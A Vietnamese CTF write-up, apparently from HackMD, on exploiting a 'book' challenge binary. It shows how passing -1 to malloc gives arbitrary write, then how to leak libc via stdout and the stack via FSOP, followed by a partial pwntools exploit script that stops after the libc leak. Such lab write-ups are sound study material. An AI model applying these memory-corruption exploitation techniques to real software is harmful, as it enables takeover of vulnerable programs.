  
```c
printf("How long will your book be: ");
__isoc99_scanf("%ld", &bookSize);
book = malloc(bookSize);
```

nếu ta nhập -1 vào size thì 
 
![image](https://hackmd.io/_uploads/HJhdbhmDkx.png)

ta thấy nó sẽ không phân bổ bất kỳ chunk nào , ta có thể tận dụng được điều này để ghi tùy ý và ta có thể nhập dữ liệu vào đó , ở đây suy nghĩ đầu tiên sẽ là overwrite ```ret_address``` và muốn làm điều đó thì trước tiên ta phải leak được stack , và muốn leak được ```stack``` thì phải leak được ```libc_environ```

![image](https://hackmd.io/_uploads/r1Zqbn7v1g.png)

- ta có thể dễ dàng leak libc bằng cách trên , chỉ cần ghi ```stdout``` vào ```book``` và dùng option2 để in

![image](https://hackmd.io/_uploads/HyfG7hQDkg.png)

- lúc này khi đã có libc , lúc này ta sẽ dùng nó để leak địa chỉ stack cho ta bằng cách sử dụng ```FSOP```  , hãy nhớ lại lúc nãy ta đã ghi ```book``` bằng ```stdout``` , vậy bây giờ ta sẽ ghi lại ```book``` bằng ```_IO_2_1_stdin - 8``` , vậy tại sao là -8 ở trường hợp này ?  vì lúc này ta cần leak nên ta sẽ cần ghi ```struct_IO_FILE``` của ```STDOUT``` để leak stack và khi có địa chỉ stack thì ta chỉ cần dùng ```ROP``` để ghi vào ```ret_address``` , lúc này giai đoạn cuối là overwrite ```struct_IO_FILE``` của ```STDIN``` để ta có thể thực hiện ghi tùy ý 


full script : 

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
#gdb.attach(p,gdbscript='''
#           b*0x000000000040132A
#           b*0x00000000004013CD
#           b*0x000000000040140F
#           ''')
input()
p.sendline(b'-1')
p.sendline(b'1')

#over write book to stdout
p.sendline(str(0x404030))
p.sendline(p64(0x404010))

# leak libc
input()
p.sendline(b'2')
p.recvuntil(b'your book: ')
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x2045c0
log.info(f'libc.address: {hex(libc.address)}')

input()
p.sendline(b'1')
```